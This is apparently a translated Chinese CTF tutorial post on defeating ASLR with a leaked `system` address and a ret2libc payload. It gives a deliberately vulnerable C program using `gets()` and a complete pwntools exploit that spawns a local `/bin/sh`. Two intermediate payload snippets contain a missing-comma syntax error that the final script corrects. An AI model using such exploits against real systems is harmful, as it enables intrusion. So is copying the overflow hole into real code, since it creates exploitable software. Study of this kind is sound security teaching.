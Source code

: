 ```yaml
---
title: '利用已泄漏信息绕过 ASLR'
date: '2023-08-23'
lastmod: '2023-08-23'
tags: ['PWN', 'Stack']
draft: false
summary: '绕过 ASLR'
authors: ['default']
---
```


## 0x01 源码

LINK

```c:source.c
#include <stdio.h>
#include <stdlib.h>

void vuln() {
  char buffer[20];

  printf("System is at: %lp\n", system);

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

就像我们对 PIE 所做的那样，只不过这次我们输出 `system` 的地址。

## 0x02 分析

```
$ ./vuln-32
System is at: 0xf7c4f610
```

:::info
你的系统地址可能以不同的字符结尾。这只是说明你用的是不同的 libc 版本。
:::

## 0x03 利用

其中大部分与我们对 PIE 所做的一样。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

解析 `system` 地址并从中计算 libc 基址（就像我们对 PIE 所做的那样）：

```python
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')
```

现在我们终于可以使用 libc ELF 对象来实现 ret2libc 了：

```python
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

LINK

自己尝试 :)

## 0x05 使用 pwntools 优化

你可以将以下 payload 写得更加 pwntoolsy：

```python
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)
```

你可以这样做：

```python
shell = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(shell)

p.sendline(rop.chain())
```

这样做的好处是更具可读性，而且也更容易在 64-bit 漏洞利用中重用。因为所有参数都
会自动为你解析。

